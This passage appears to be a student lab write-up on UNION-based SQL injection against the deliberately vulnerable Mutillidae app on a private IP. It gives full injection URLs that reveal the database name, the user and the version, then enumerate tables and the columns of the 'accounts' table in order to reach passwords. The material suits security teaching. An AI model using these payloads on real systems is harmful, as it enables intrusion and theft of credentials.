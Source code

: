  Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.
```
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
```
![244885896-78ba6fc7-7ab6-4c39-8a7f-c8e4240775b8](https://github.com/KRISHNARAJ-D/sqlinjection/assets/119559695/e9caa692-e5e5-454e-a760-3118da93c594)



The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

```
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

```
![244885899-68ccd33b-a98d-4ff6-8c19-57e63c2724d0](https://github.com/KRISHNARAJ-D/sqlinjection/assets/119559695/78d101f5-3630-409d-a86e-96c050833ede)

The url once executed will  retrieve table names from the “owasp 10” database.
# Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.


![244885902-c820f87a-30cb-485b-b423-f6fd0e67c96e](https://github.com/KRISHNARAJ-D/sqlinjection/assets/119559695/ae440ee8-028f-4dee-aff7-d7032a00d4b6)



The column names of the accounts is displayed below for the following url:
```
http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 
```
![244885902-c820f87a-30cb-485b-b423-f6fd0e67c96e](https://github.com/KRISHNARAJ-D/sqlinjection/assets/119559695/0c5a87c5-e78f-4b9e-b10b-2f123d57963d)




